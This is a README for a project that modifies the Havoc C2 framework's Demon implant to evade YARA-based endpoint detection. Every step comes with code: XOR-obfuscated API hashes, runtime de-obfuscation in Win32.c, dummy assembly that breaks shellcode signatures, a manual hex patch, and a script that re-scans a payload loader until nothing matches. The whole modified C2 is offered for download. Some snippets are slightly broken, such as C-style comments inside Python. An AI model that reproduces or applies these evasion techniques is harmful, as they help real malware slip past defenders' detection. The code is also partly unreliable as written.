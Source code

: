 # Havoc-C2-Modification-YARA-Free

# POC of modifying YARA signautre on [Havoc C2](https://github.com/HavocFramework/Havoc). 
This project was from a red team engagement where I modified an open-source Command-and-Control (C2) framework to ensure it was YARA-free, enabling safer in-memory execution via a loader and evading detection by common YARA scans used by Endpoint Detection and Response (EDR) systems. I successfully achieved 0% YARA detection. The main steps are as follows:

1.Modify [hash_func.py](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/scripts/hash_func.py) to generate different hash values that are flagged by YARA rules

```js
import sys

def hash_string( string ):
    try:
        hash = 5381

        for x in string.upper():
            hash = (( hash << 5 ) + hash ) + ord(x)

            hash ^= 0xA5A5A5A5 // we are xoring the hash values with the key 

        return hash & 0xFFFFFFFF
    except:
        pass

def hash_coffapi( string ):
    try:
        hash = 5381

        for x in string:
            hash = (( hash << 5 ) + hash ) + ord(x)

        
            hash ^= 0xA5A5A5A5 // we are xoring the hash values with the key  


        return hash & 0xFFFFFFFF
    except:
        pass

if __name__ in '__main__':
    try:
        print('#define H_FUNC_%s 0x%x' % ( sys.argv[ 1 ].upper(), hash_string( sys.argv[ 1 ] ) ));
        print('#define H_COFFAPI_%s 0x%x' % ( sys.argv[ 1 ].upper(), hash_coffapi( sys.argv[ 1 ] ) ));
    except IndexError:
        print('usage: %s [string]' % sys.argv[0]);
```

2.Replace them in [Define.h](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/include/common/Defines.h)

```js
define XOR_KEY 0xA5A5A5A5


#define H_FUNC_LDRLOADDLL 0x3be0cfe6
#define H_FUNC_LDRGETPROCEDUREADDRESS 0x5942ce13
#define H_FUNC_NTADDBOOTENTRY 0x295962d3
#define H_FUNC_NTALLOCATEVIRTUALMEMORY 0x52261d49
#define H_FUNC_NTFREEVIRTUALMEMORY 0x8da763ac
#define H_FUNC_NTUNMAPVIEWOFSECTION 0xcf01b768
#define H_FUNC_NTWRITEVIRTUALMEMORY 0x66b2a437
#define H_FUNC_NTSETINFORMATIONVIRTUALMEMORY 0x31cf679c
#define H_FUNC_NTQUERYVIRTUALMEMORY 0xb5654df8
#define H_FUNC_NTOPENPROCESSTOKEN 0x90a86f3c
#define H_FUNC_NTOPENTHREADTOKEN 0x2596e277
```
3. Add the XOR logic in [Win32.c](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/src/core/Win32.c), the idea is to dynamicly XORing back to the orignal values of the API hash functions during run time, so YARA will not flag the hardcoded values in demon.bin defined in [Define.h](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/include/common/Defines.h)

```js
#define XOR_KEY 0xA5A5A5A5 // the key we used to xor the hash values


PVOID LdrFunctionAddr(
    IN PVOID Module,
    IN DWORD Hash
) {
    PIMAGE_NT_HEADERS       NtHeader         = { 0 };
    PIMAGE_EXPORT_DIRECTORY ExpDirectory     = { 0 };
    SIZE_T                  ExpDirectorySize = { 0 };
    PDWORD                  AddrOfFunctions  = { 0 };
    PDWORD                  AddrOfNames      = { 0 };
    PWORD                   AddrOfOrdinals   = { 0 };
    PVOID                   FunctionAddr     = { 0 };
    PCHAR                   FunctionName     = { 0 };
    ANSI_STRING             AnsiString       = { 0 };

    if ( ! Module || ! Hash )
        return NULL;

    NtHeader         = C_PTR( Module + ( ( PIMAGE_DOS_HEADER ) Module )->e_lfanew );
    ExpDirectory     = C_PTR( Module + NtHeader->OptionalHeader.DataDirectory[ IMAGE_DIRECTORY_ENTRY_EXPORT ].VirtualAddress );
    ExpDirectorySize = U_PTR( Module + NtHeader->OptionalHeader.DataDirectory[ IMAGE_DIRECTORY_ENTRY_EXPORT ].Size );

    AddrOfNames      = C_PTR( Module + ExpDirectory->AddressOfNames );
    AddrOfFunctions  = C_PTR( Module + ExpDirectory->AddressOfFunctions );
    AddrOfOrdinals   = C_PTR( Module + ExpDirectory->AddressOfNameOrdinals );

    if (IsPredefinedHash(Hash)) {
        Hash ^= XOR_KEY; // use the same key to xor back whenever the demon calls hashes APIs
    }

```

4. Modify the [Asm.s](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Shellcode/Source/Asm/x64/Asm.s) Assemby and add a dummy functions to break the ROP gadget logic to evade YARA detection 

`````js
; Define the dummy function
DummyFunction:
        ; Save registers (if needed)
        push    rax
        push    rbx
        push    rcx
        push    rdx

        ; Dummy operations
        nop     ; No operation
        nop     ; No operation
        nop     ; No operation

        ; Restore registers
        pop     rdx
        pop     rcx
        pop     rbx
        pop     rax

        ; Return from the dummy function
    ret

section .text$A
	Start:
        call    DummyFunction     // break the following calling logic    
        push    rsi               // <-----detection starts here
        nop                       
        mov		rsi, rsp
``````

5. Last step is to  manually remove using the [Hxd tool](https://mh-nexus.de/en/hxd/) to  change one hex value

    Step 4 and 5 refer the that [blog](https://karma-x.io/blog/post/18/) and the demo below

    Click [here](https://drive.google.com/file/d/13tZNTVFa5PXiA4tVN17b8KBguBuCT-M-/view) to check out demo for manually modifying the hex value


<video width="600" controls>
  <source src="https://drive.google.com/file/d/13tZNTVFa5PXiA4tVN17b8KBguBuCT-M-/view" type="video/mp4">
  Your browser does not support the video tag.
</video>



6. The whole modified havoc is here, you can download and compile your own to make modificatio and YARA check using a simple [python script](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Yara%20Scan%20Checker/yara_check.py) like the following with updated [yara rules](https://github.com/elastic/protections-artifacts), you can add [pe-sieve](https://github.com/hasherezade/pe-sieve) and [moneta](https://github.com/forrest-orr/moneta) in the script to check addtioanl memory region for the shellcode and modify it accordingly.


```js
import os
import sys
import subprocess


directory = ('C:\\Users\\User\\Downloads\\Mem_Scan\\protections-artifacts-main\\protections-artifacts-main\\yara\\rules')
target = 'C:\\Users\\User\\Desktop\\Payloads\\Products\\double_module_stomp\\PayloadLoader\\x64\\Release\\DllLoader.dll'

for fileanme in os.listdir(directory):
    filepath = os.path.join(directory, fileanme)

    if os.path.isfile(filepath):
        cmd = ['yara64.exe','-s', filepath, target]
        result = subprocess.run(cmd, capture_output=True, text=True)
        if result.stdout:
            with open('yara_loader_result.txt', 'a') as f:
                outout = f'Detected===>!!!\\n{filepath} ====>\n {result.stdout}'
                print(outout)

```

# DEMO 

You can also check out the demo for the final version of the cleaned shellcode YARA scan [here](https://drive.google.com/file/d/1vkOEhy7eR_kjewiJaoxkTosBVLG5HxkB/view?usp=sharing)



